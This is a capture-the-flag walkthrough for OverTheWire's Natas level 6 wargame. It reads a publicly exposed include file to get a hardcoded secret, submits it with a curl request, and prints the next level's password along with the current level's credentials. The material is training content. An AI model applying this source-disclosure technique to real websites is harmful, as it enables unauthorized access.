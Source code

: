 # NATAS LEVEL 6

```
http://overthewire.org/wargames/natas/natas6.html
```

```
Username: natas6
Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
URL:      http://natas6.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

The page invites us to "view source", so let's!

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We see a small snippet of code that does a check against the submitted input
field with a variable `$secret`. We also see that there is another source file
included `secret.inc`.  Inside that source file we see where our variable
`$secret` is defined..

```
http://natas6.natas.labs.overthewire.org/includes/secret.inc

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Going back to the main page, we try entering a test value of `test` and observe
that the page submits the following FORM DATA to the server.

```
secret=test&submit=Submit
```

Now let's insert the value for `$secret` we found in the source..

```
#! /bin/bash

$ curl 'http://natas6.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXM2OmFHb1k0cTJEYzZNZ0RxNG9MNFl0b0t0eUFnOVBlSGEx' --data 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
